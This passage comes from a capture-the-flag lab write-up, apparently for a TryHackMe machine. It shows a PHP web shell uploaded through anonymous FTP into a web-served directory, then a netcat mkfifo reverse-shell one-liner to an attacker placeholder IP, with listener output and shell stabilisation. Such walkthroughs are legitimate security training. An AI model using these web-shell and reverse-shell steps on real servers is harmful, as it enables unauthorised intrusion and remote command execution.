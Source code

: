   ```
  226 Directory send OK.
  ftp> exit
  221 Goodbye.
               
  cat notice.txt  
  Whoever is leaving these damn Among Us memes in this share, it IS NOT FUNNY. 
  People downloading documents from our website will think we are a joke! 
  Now I dont know who it is, but Maya is looking pretty sus.
  ```
  
- I also used `binwalk` on this goated meme but it was a dead end. When I checked `http://10.10.72.19/files/`, I realised that that's actually FTP directory. Well, let's put web shell there so we can get command injection on web page.

  ```
  ftp> put web.php
  local: web.php remote: web.php
  229 Entering Extended Passive Mode (|||11763|)
  150 Ok to send data.
  100% |************************************************************************|  2352       43.98 MiB/s    00:00 ETA
  226 Transfer complete.
  2352 bytes sent in 00:00 (24.10 KiB/s)
  ftp> ls -al
  229 Entering Extended Passive Mode (|||54558|)
  150 Here comes the directory listing.
  drwxrwxrwx    2 65534    65534        4096 May 15 14:08 .
  drwxr-xr-x    3 65534    65534        4096 Nov 12  2020 ..
  -rwxrwxr-x    1 112      118          2352 May 15 14:08 web.php
  226 Directory send OK.
  ftp>
  ```

- Web shell can be found [here](https://github.com/artyuum/simple-php-web-shell). I changed it's name to `web.php` and in order to move it to target machine, you must have it in the same directory from which you logged in with FTP.
  After moving the shell to target machine, visit it on web page and you will have option to execute commands. `http://10.10.72.19/files/ftp/web.php`.

---

## ⚙️ Shell Access

- Here I tried few different shells and this is the one that worked for me, start a listener before you execute it.

  ```
  rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc [YOUR-THM-IP] 4444 >/tmp/f 

  nc -lvnp 4444                   
  listening on [any] 4444 ...
  connect to [YOUR-THM-IP] from (UNKNOWN) [10.10.72.19] 35282
  /bin/sh: 0: can't access tty; job control turned off
  $ whoami
  www-data
  
  python -c 'import pty;pty.spawn("/bin/bash")'
  ^Z
  stty raw -echo; fg
  export TERM=xterm
  
  www-data@startup:/var/www/html/files/ftp$ id
  uid=33(www-data) gid=33(www-data) groups=33(www-data)
  ```
  